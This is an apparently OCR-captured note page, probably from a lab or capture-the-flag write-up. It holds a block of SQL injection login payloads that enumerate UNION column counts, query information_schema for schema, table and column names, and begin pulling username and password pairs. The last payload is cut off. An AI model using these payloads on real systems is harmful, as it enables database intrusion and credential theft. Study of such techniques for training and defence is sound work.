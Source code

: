 ```python
,&#39; union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                                 
,&#39; union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                            
,&#39; union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -:password123                                                                                                                                                       
,&#39; union select 1-- -:password123                                                                                                                                                                                                       
,&#39; union select 1,2-- -:password123                                                                                                                                                                                                     
,&#39; union select 1,2,3-- -:password123                                                                                                                                                                                                   
,&#39; union select 1,2,3,4-- -:password123                                                                                                                                                                                                 
,&#39; union select 1,(select group_concat(SCHEMA_NAME,&#34;                                                                                                                                                                                
&#34;) from Information_Schema.SCHEMATA),3,4-- -:password                                                                                                                                                                                   
,&#39; union select 1,(select group_concat(TABLE_NAME,&#34;:&#34;,COLUMN_NAME,&#34;                                                                                                                                                         
&#34;) from Information_Schema.COLUMNS where TABLE_SCHEMA = &#39;website&#39;),3,4-- -:password                                                                                                                                             
.&#39; union select 1,(select group_concat(username,&#34;:&#34;,password,&#34; 
```

![Pasted image 20250805180104.png](../../IMAGES/Pasted%20image%2020250805180104.png)
